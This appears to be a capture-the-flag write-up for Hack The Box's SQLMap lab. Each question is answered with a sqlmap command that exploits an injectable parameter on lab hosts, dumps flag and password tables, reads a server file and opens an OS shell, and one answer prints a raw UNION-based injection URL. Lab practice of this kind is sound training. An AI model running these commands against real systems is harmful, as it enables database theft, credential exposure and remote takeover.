 1.  What's the contents of table flag2? (Case #2)

- vulnerable in Post data `id`

```sh
❯ sqlmap 'http://167.99.89.94:30884/case2.php'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Accept-Language: en-US,en;q=0.9'   -H 'Cache-Control: max-age=0'   -H 'Connection: keep-alive'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'Origin: http://167.99.89.94:30884'   -H 'Referer: http://167.99.89.94:30884/case2.php'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36'   --data-raw 'id=1*'   --compressed --tables
```

- found flag2 and user table

```sh
❯ sqlmap ... -T flag2 --dump
```

---

2. What's the contents of table flag3? (Case #3)

- vulnerable in cookie value `id`

```sh
❯ sqlmap 'http://167.99.89.94:30884/case3.php'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Accept-Language: en-US,en;q=0.9'   -H 'Connection: keep-alive'   -H 'Cookie: id=1*'   -H 'Referer: http://167.99.89.94:30884/case3.php'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36'   --compressed --tables
```

- found flag3 and user table

```sh
❯ sqlmap ...  -T flag3 --dump
```

---

3. What's the contents of table flag4? (Case #4)

- vulnerable in JSON data {"id": 1}
- write case4.txt file as below

```
POST /case4.php HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Content-Length: 8
Content-Type: application/json
Host: 167.99.89.94:32587
Origin: http://167.99.89.94:32587
Referer: http://167.99.89.94:32587/case4.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36

{"id":1*}
```

```sh
sqlmap -r case4.txt --tables
sqlmap -r case4.txt -T flag4 --dump
```

---

4. What's the contents of table flag5? (Case #5)

```
HTB{700_much_r15k_bu7_w0r7h_17}
```

5. What's the contents of table flag6? (Case #6)

```bash
sqlmap 'http://161.35.36.93:32602/case6.php?col=id*'   \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   \
    -H 'Accept-Language: en-US,en;q=0.9'   \
    -H 'Cache-Control: max-age=0'   \
    -H 'Connection: keep-alive'   \
    -H 'Upgrade-Insecure-Requests: 1'   \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'
    --risk=3
    --level=5
    -v 4
    --prefix='`)'
    -T flag6 --dump
```

6. What's the contents of table flag6? (Case #7)

```bash
sqlmap 'http://161.35.36.93:32602/case7.php?id=1*'
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'
    -H 'Accept-Language: en-US,en;q=0.9'
    -H 'Cache-Control: max-age=0'
    -H 'Connection: keep-alive'
    -H 'Upgrade-Insecure-Requests: 1'
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'
    --level=5
    --risk=3
    --technique=U
    -v 5
    --union-cols=5
    --threads=10
    -T flag7
    --dump
```

```
'http://161.35.36.93:32602/case7.php?id=1 UNION ALL SELECT CONCAT(0x716a787171,IFNULL(CAST(content AS NCHAR),0x20),0x726970667372,IFNULL(CAST(id AS NCHAR),0x20),0x7171707071),NULL,NULL,NULL,NULL FROM testdb.flag7-- -'
```

7. What's the contents of table flag1 in the testdb database? (Case #1)

```bash
sqlmap 'http://178.62.88.12:31405/case1.php?id=1*'
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'
    -H 'Accept-Language: en-US,en;q=0.9'
    -H 'Cache-Control: max-age=0'
    -H 'Connection: keep-alive'
    -H 'Upgrade-Insecure-Requests: 1'
    -D testdb
    -T flag1
    --dump
    --threads=10
```

8. What's the name of the column containing "style" in its' name? (Case #1)

```bash
sqlmap 'http://178.62.88.12:31405/case1.php?id=1*'
    --search -C style
```

9. What is the password for Kimberly? (Case #1)

```bash
sqlmap 'http://178.62.88.12:31405/case1.php?id=1*'
    --threads=10
    -v 3
    -T users -C name,password --dump
```

10. What's the contents of table flag8? (Case #8)

```bash
sqlmap 'http://178.62.88.12:31405/case8.php'
    --data-raw 'id=1*&t0ken=CYT5Uz6uLZhvoCJzmOAKmyks472OipNo6XgoaxNP2o' --csrf-token="t0ken" -T flag8 --dump -v 2
```

11. What's the contents of table flag9? (Case #9)

```bash
sqlmap 'http://178.62.88.12:31405/case9.php?id=1*&uid=1432506057'
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'
    -H 'Accept-Language: en-US,en;q=0.9'
    -H 'Connection: keep-alive'
    -H 'Cookie: PHPSESSID=4r2b2qaa3eorug4mdsd57m0hi6'
    --randomize=uid -v 2 -T flag9 --dump
```

12. What's the contents of table flag10? (Case #10)

```bash
sqlmap 'http://178.62.88.12:31405/case10.php'
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'
    -H 'Accept-Language: en-US,en;q=0.9'
    -H 'Cache-Control: max-age=0'
    -H 'Connection: keep-alive'
    -H 'Content-Type: application/x-www-form-urlencoded'
    -H 'Cookie: PHPSESSID=4r2b2qaa3eorug4mdsd57m0hi6'
    -H 'Origin: http://178.62.88.12:31405'
    -H 'Referer: http://178.62.88.12:31405/case10.php'
    -H 'Upgrade-Insecure-Requests: 1'
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'
    --data-raw 'id=1*' -T flag10 --dump
```

13. What's the contents of table flag11? (Case #11)

```bash
sqlmap 'http://178.62.88.144:31615/case11.php?id=1'
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'
    -H 'Accept-Language: en-US,en;q=0.9'
    -H 'Cache-Control: max-age=0'
    -H 'Connection: keep-alive'
    -H 'Referer: http://178.62.88.144:31615/case11.php'
    -H 'Upgrade-Insecure-Requests: 1'
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36'
    --union-cols=9
    -T flag11
    --dump
    --threads=10
    --tamper=between
    -v 3
```

14. Try to use SQLMap to read the file "/var/www/html/flag.txt".

```sh
sqlmap 'http://178.62.88.151:30349/?id=1' --file-read "/var/www/html/flag.txt"
```

15. Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.

```sh
sqlmap 'http://178.62.88.151:30349/?id=1' --os-shell --technique=E
```

16. What's the contents of table final_flag?

```sh

```
